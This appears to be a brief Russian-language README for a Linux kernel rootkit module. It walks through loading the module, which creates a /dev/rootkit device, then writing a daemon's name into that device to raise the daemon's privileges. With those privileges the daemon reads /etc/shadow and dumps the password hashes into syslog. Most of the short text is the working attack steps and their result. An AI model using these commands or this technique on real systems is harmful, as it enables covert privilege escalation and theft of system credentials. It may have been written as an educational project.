 rootkit

Модуль при загрузке создает файл устройства "/dev/rootkit"

Запускаем демон "./mydaemon -c start"

Заставляем читать демон системный файл "/etc/shadow". 

"./mydaemon -c read"

Прав не хватает и он плачет в syslog об этом.

Error file open: Permission denied

"Повышаем" права демона
echo "mydaemon" > /dev/rootkit

Просим повторить демона процедуру чтения. Успех.
В syslog появилось содержимое файла "/etc/shadow"

=======
